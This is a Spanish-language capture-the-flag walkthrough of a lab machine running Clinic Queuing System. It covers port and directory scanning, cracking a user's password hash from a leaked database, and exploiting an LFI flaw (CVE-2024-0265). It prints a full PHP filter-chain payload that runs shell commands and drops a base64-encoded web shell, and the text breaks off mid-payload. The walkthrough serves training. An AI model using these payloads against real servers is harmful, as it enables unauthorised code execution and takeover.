


Machine Author(s): [b0ySie7e](https://b0ysie7e.github.io/) 


Iniciamos desplegando nuestra maquina con el script `auto_deploy`:

```c
❯ sudo ./auto_deploy.sh queuemedic.tar
```




# Enumeración

Enumerando con nmap encontraremos el puerto 80 abierto 

```c
❯ nmap -p- --open --min-rate 10000 -vv -n -Pn 172.17.0.2 -oG allportScan

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Enumerando mas el puerto abierto encontraremos que se encuentra ejecutándose un servicio web.

```c
❯ nmap -p80 -sV -sC -Pn -vvvv 172.17.0.2 -oN servicesScan

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: LOGIN | Clinic Queuing System
|_Requested resource was ./login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)

```

Dirigiéndonos al sitio web encontraremos el siguiente contenido [http://172.17.0.2/login.php](http://172.17.0.2/login.php) un sistema llamado `Clinic Queuing System`



Ahora enumeraremos el los directorio del sitio web.

```c
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ -e .php,.html,.db
```



Luego de enumerar encontraremos un directorio `db` y otro llamado `backup`.

## db


## backup



En estos directorios encontraremos un `.db` y un `.zip` 



Dejando de lado estos archivos y teniendo en cuenta el titulo del sitio web investigaremos un poco en la red



# Intrusión

## Fail Exploit

Buscando por el titulo encontraremos que el sitio web tiene vulnerabilidades reportadas



Usaremos el siguiente exploit:

- [https://github.com/jmrcsnchz/ClinicQueueingSystem_RCE](https://github.com/jmrcsnchz/ClinicQueueingSystem_RCE)

Lanzamos el exploit con los parámetros requeridos y no funciona el exploit



## SQLite3

Volvemos con los archivos que encontramos, usando `sqlite3` podremos leer la base de datos que se encontró

```c
❯ sqlite3  clinic_queuing_db.db
```

En esta encontramos dos tablas, una `patient_list` y `user_list`.



En la tabla `user_list` encontramos dos usuarios que son `admin` y `jessica`. Usando el `rockyou.txt` no llegamos a ningún lado o al menos lleva mucho tiempo sin poder crackearlo. 

## Hash Cracking 

```c
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



Decidí cambiar de wordlist, haciendo uso del nombre y apellido del usuario `jessica`. Usaremos la herramienta [username-anarchy](https://github.com/urbanadventurer/username-anarchy).



## Username-anarchy

Para la herramienta `username-anarchy` necesitamos una `user list` 

```c
❯ ./username-anarchy -i [list_users] > [output]
```

Usaremos el nombre del usuario `jessica` que es `Jessica Castro`.



Ahora generamos una wordlist personalizada.

```c
❯./username-anarchy -i list_user.txt > wordlist.txt
```

Luego obtenemos esta lista:




Haciendo uso de `John the Ripper` crackeamos el hash de `jessica`.



La contraseña en texto plano es `j.castro`.

```c
jessica: j.castro
```

Esta es si se encuentra en el rockyou, pero se encuentra en la linea `7257681` por lo que si hubiéramos esperado mas tiempo la hubiera encontrado.



Haciendo uso de las credenciales podemos ingresar.



## Backup

Vamos a revisar el contenido de `backup.zip`

```c
❯ unzip backup.zip
```

En este encontramos una copia del sitio web.



Podremos encontrar el codigo fuente original en el siguiente sitio web [sourcecodester.com](https://www.sourcecodester.com/php/16439/clinic-queuing-system-using-php-and-sqlite3-source-code-free-download.html.)

### CVE-2024-0264

Revisando el POC anterior encontramos que la causa de la vulnerabilidad es debido a que no se realiza una validación correcta del `token`.


```php
//LoginRegistration.php
// <SNIPPED>

extract($_POST);
$allowedToken = $_SESSION['formToken']['manage_user'];
if(!isset($formToken) || (isset($formToken) && $formToken != $allowedToken)){
    // throw new ErrorException("Security Check: Form Token is valid.");
    $resp['status'] = 'failed';
    $resp['msg'] = "Security Check: Form Token is invalid.";
}else{

// <SNIPPED>
```

En el código que encontramos en `backup.zip` se agrego el `|| (isset($formToken) && $formToken==='')` por lo que esto soluciona el problema de la validación del `token`.



```php
extract($_POST);
// Retrieving Allowed Token
$allowedToken = $_SESSION['formToken']['login'];
if(!isset($formToken) || (isset($formToken) && $formToken != $allowedToken) || (isset($formToken) && $formToken==='')){
	// throw new ErrorException("Security Check: Form Token is valid.");
	$resp['status'] = 'failed';
	$resp['msg'] = "Security Check: Form Token is invalid.";
}else{
```


Por lo que la vulnerabilidad no puede ser explotada.

### Local File Inclusión to RCE -  CVE-2024-0265

En el mismo exploit encontraremos que también el sitio web tiene otra vulnerabilidad que es debido a:

```php
//index.php
// <SNIPPED>

<?php include($page.".php");  ?>

// <SNIPPED>
```

La página del parámetro GET fue puesta de forma insegura dentro de una función `php include()`. Revisando El código que encontramos en `backup.zip` vemos que esta vulnerabilidad no ha sido arreglada





Revisamos el exploit y para poder explotar esta vulnerabilidad necesitamos un usuario y contraseña, pero tenemos las credenciales del usuario `jessica`. Tenemos que tener en cuenta que se hace una validación del token por lo que debemos de hacer uso el token para generado cuando no logeamos.




## www-data

Vamos a explotar la vulnerabilidad `CVE-2024-0265` por lo que revisaremos el código del exploit.




Tenemos dos peticiones, en una solo comprueba la ejecución de código y en otra sube un archivo `rce.php` en la ruta actual del sitio web.

Observamos que hace una petición `GET` pero esta petición tiene que ser cuando el usuario ya inició sesión.

```c

[...]

rce_url = base_url + "/?page=" + filter_chain + "&0=echo '|jmrcsnchz|<pre>'.shell_exec('id').'</pre>';"

[...]
```

Enviamos la petición `GET`

```c
/?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=home&0=echo '|jmrcsnchz|<pre>'.shell_exec('id').'</pre>';
```

Observamos que se tiene la ejecución de código.




Ahora que comprobamos que se ejecuta comandos, podemos realizar la la otra petición donde subiremos un archivo `rce.php` 

```c
[...]

s.get(base_url + "/?page=" + filter_chain + "&0=file_put_contents('rce.php',base64_decode('PD89YCRfR0VUWzBdYD8%2b'));")

[...]
```

```c
/?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.ic